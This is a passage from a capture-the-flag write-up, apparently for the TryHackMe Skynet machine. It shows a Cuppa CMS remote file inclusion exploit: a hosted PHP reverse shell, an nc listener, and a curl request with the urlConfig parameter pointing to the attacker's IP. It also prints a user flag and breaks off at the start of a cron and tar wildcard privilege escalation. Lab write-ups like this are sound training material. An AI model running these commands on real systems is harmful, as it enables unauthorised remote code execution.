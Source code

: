This script is vulnerable to a Remote File Inclusion (RFI) via the `urlConfig` parameter.

Identified **Cuppa CMS**, vulnerable to RFI (Exploit-DB 25971).

**Exploit steps**:

1. Prepare reverse shell:

   ```php
   $ip = "YOUR_IP";
   $port = 1234;
   ```

   Save as `php-reverse-shell.php`.

2. Host file:

   ```bash
   python3 -m http.server 8080
   ```

3. Start listener:

   ```bash
   nc -lvnp 1234
   ```

4. Trigger exploit:

   ```bash
   curl "http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://YOUR_IP:8080/php-reverse-shell.php"
   ```

Got shell as `www-data`.

> Q1: User flag
> A1: 7ce5c2109a40f958099283600a9ae807

---

## Privilege Escalation – Cron + Tar Wildcard Injection

While enumerating the machine, I checked the system-wide crontab:

```bash
cat /etc/crontab

```

I found a job that runs every minute as **root**:

```
*/1 * * * * root /home/milesdyson/backups/backup.sh

```

---

### Step 1 – Inspect the backup script
